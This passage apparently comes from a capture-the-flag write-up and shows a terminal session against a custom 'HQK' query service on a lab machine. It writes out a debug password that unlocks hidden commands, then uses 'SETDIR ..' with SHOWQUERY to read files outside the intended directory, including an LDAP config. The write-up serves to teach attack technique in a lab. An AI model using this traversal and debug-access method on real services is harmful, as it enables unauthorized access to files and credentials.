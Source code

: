 ```bash

LIST
SETDIR <Directory_Name>
RUNQUERY <Query_ID>
DEBUG <Password>
HELP <Command>
>DEBUG WBQ201953D8w

Debug mode enabled. Use the HELP command to view additional commands that are now available
>HELP

This service allows users to run queries against databases using the legacy HQK format

--- AVAILABLE COMMANDS ---

LIST
SETDIR <Directory_Name>
RUNQUERY <Query_ID>
DEBUG <Password>
HELP <Command>
SERVICE
SESSION
SHOWQUERY <Query_ID>

>
```
`SHOWQUERY` in combination with `SETDIR` and `LIST` gives us arbitrary file-read.

```bash
>SETDIR ..

Current directory set to HQK
>LIST

Use the query ID numbers below with the RUNQUERY command and the directory names with the SETDIR command

 QUERY FILES IN CURRENT DIRECTORY

[DIR]  ALL QUERIES
[DIR]  LDAP
[DIR]  Logs
[1]   HqkSvc.exe
[2]   HqkSvc.InstallState
[3]   HQK_Config.xml

Current Directory: HQK
>SETDIR LDAP

Current directory set to LDAP
>LIST

Use the query ID numbers below with the RUNQUERY command and the directory names with the SETDIR command

 QUERY FILES IN CURRENT DIRECTORY

[1]   HqkLdap.exe
[2]   Ldap.conf

Current Directory: LDAP
>SHOWQUERY 2

Domain=nest.local
```